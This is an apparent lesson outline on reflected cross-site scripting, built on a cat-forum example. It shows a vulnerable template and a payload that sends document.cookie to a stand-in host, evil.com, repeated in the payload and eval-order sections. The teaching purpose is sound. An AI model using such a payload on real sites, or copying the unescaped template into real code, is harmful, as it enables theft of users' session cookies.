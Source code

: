 #+TITLE: Reflected XSS
#+AUTHOR: Zach Roof
* Ep-4: What is XSS
** Table Of Contents
- [[#ep-4-what-is-xss][Ep-4: What is XSS]]
  - [[#scope][Scope]]
  - [[#reflected-xss-ex-scenario][Reflected XSS Ex: Scenario]]
  - [[#reflected-xss-ex-search-results-view][Reflected XSS Ex: Search Results View]]
  - [[#reflected-xss-ex-back-end-code][Reflected XSS Ex: Back-end Code]]
  - [[#reflected-xss-ex-payload][Reflected XSS Ex: Payload]]
  - [[#reflected-xss-ex-payload-eval-order][Reflected XSS Ex: Payload Eval Order]]
  - [[#reflected-xss-ex-live-ex][Reflected XSS Ex: Live Ex]]
  - [[#reflected-xss-summation][Reflected XSS Summation]]
  - [[#xss-types][XSS Types]]
  - [[#additional-resources][Additional Resources]]
  - [[#error-log][Error Log]]
  - [[#knowledge-dependency-tree][Knowledge Dependency Tree]]

** Scope
- Questions to be answered
  - What is Reflected XSS (Cross-Site Scripting)?
  - How does Reflected XSS compare to other types of XSS?
  - What does a Reflected XSS payload look like?
- 80/20 Analysis
** Reflected XSS Ex: Scenario
- Explore definition through example
- Scenario
  - Website forum for cat lovers
  - User just clicked on a link to show all cat photos on site
** Reflected XSS Ex: Search Results View
- Browser Request
  - [[http://cats.example.com?search=cat-photos]]
- Server Response
  #+BEGIN_SRC html
    <!-- Search form... -->
    <input id='search' type='text' value='cat-photos'>
    <button>Search</button>
    <!-- Search form... -->
  #+END_SRC
- Problems?
  - Alert: User submitted input is /reflected/ into the response
    - /Reflected/ XSS
  - "But wait, how is this untrusted?!"
    - We'll explore this soon

** Reflected XSS Ex: Back-end Code
- Portion of Server-side Template
  #+BEGIN_SRC javascript
    let searchParam = "cat-photos"; // Mock params from request
    let htmlPage = `<input id='search' type='text' value='${searchParam}'>`;
  #+END_SRC
- Alert
  - User input isn't validated against a whitelist
  - Using string concatenation with user input

** Reflected XSS Ex: Payload
- Url View with payload
  #+BEGIN_SRC http
    http://cats.example.com?search='><script>document.location='http://evil.com/receiver?cookie='+document.cookie</script>
  #+END_SRC

- Server-side Template View
  #+BEGIN_SRC javascript
    let htmlPage = `<input id='search' type='text' value='${searchParam}'>`;
  #+END_SRC

- HTML View
  #+BEGIN_SRC html
    <input id='search' type='text' value=''>
    <script>document.location='http://evil.com/receiver?cookie='+document.cookie</script>'>
  #+END_SRC

** Reflected XSS Ex: Payload Eval Order
#+BEGIN_SRC html
  <script>document.location='http://evil.com/receiver?cookie='+document.cookie</script>'>
#+END_SRC
- Eval order
  1. document.cookie
     - A string containing a semicolon-separated list of all cookies (i.e.
       key=value pairs)
  2. document.location
     - Redirection logic
  3. evil.com can view submitted cookie string

** Reflected XSS Ex: Live Ex

** Reflected XSS Summation
- Process recap
  1. A victim clicks on a link with the payload
     - trusted.example.com/PAYLOAD_HERE
  2. The payload goes to trusted.example.com
  3. The payload is embedded in the response
     - The payload is /reflected/ back to the user
  4. Malicious javascript sends ~trusted.example.com~'s cookies to ~evil.example.com~
- Attack vectors
  - Payload at the end of a long link
    - When previewing a link, only first x characters are easily viewable
  - Link shortener

** XSS Types
- Persistent
  - Stored XSS
- Non-Persistent
  - Reflected XSS
  - DOM XSS

** Additional Resources
** Error Log
:PROPERTIES:
** Knowledge Dependency Tree

